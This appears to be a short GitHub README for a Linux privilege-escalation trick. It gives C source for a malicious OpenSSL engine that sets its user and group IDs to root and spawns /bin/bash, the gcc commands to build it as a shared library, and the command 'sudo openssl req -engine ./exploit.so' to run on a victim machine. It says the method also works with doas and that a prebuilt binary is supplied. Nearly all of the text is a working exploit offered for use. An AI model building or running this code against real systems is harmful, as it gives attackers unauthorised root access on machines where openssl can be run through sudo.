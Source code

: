 # openssl-privilege-escalation
How to get ROOT with openssl <br>

On kali(attacker), create a file called exploit.c with the following content: <br>
```
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id)
{
  setuid(0); setgid(0);
  system("/bin/bash");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```

Then execute 2 commands: <br>
`gcc -fPIC -o exploit.o -c exploit.c` <br>
`gcc -shared -o exploit.so -lcrypto exploit.o` <br>

Upload exploit.so to the victim machine then run: <br>
`sudo openssl req -engine ./exploit.so` <br>
(also worked with doas because I have tested it) <br>
I have uploaded the exploit.so, so you can just run the above command without building it <br>
